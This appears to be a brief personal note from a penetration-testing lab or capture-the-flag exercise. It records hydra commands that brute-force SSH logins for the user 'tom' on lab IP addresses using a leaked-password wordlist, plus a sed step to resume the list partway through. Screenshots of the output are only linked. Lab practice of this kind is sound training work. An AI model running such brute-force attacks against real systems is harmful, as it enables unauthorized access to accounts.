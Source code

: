 - `hydra -l tom -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou-60.txt 10.129.64.82 ssh -t 4 -I`
![[Pasted image 20240828170837.png]]
- create wordlist from line where I finished
```
sed -n '5913,$p' /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou-60.txt >  rockyou-60_after_5912.txt 
```
- and one more round    `hydra -l tom -P rockyou-60_after_5912.txt 10.129.142.86 ssh -t 4 -I`
![[Pasted image 20240829140046.png]]